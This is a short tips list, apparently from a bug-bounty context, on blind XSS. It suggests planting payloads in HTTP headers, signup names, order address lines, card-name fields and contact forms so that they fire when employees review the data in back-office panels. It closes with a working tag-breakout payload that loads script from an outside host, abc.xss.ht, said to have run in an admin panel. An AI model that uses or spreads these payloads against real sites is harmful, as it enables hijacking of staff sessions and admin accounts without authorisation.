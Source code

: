 --> Try Blind XSS injection into User-Agent or Referrer/Origin headers, in case that payloads seems not executed try again with url encoding or double encoding. Sometimes works like a charm! You never can't totally sure how the backend is handiling the inputs!

--> Signup with name as blind XSS payload. Report own profile to be reviewwd = blind xss executes when employee reviews it on backend.

-->If you are going to place an order to test out the flow for an e-commerce site, leave a BXSS payload in the 2nd line of your address field for a nice little surprise. Or the first name filed for any credit card payment.

-->User Agent: put blind xss payload in user agent before fill in a contact form


-->  if website allow to put blind xss payload in the form field try everywhere or the first name field for any credit card payment




Tip: When testing for Blind XSS I use the below payload: ``'"></title></textarea></script></style></noscript><script src=[https://abc.xss.ht](https://t.co/g8l6lbzBkO)></script> Here </title>`` closed the title tag and XSS was executed in Admin Panel. So make sure you use the above tags with your payload.
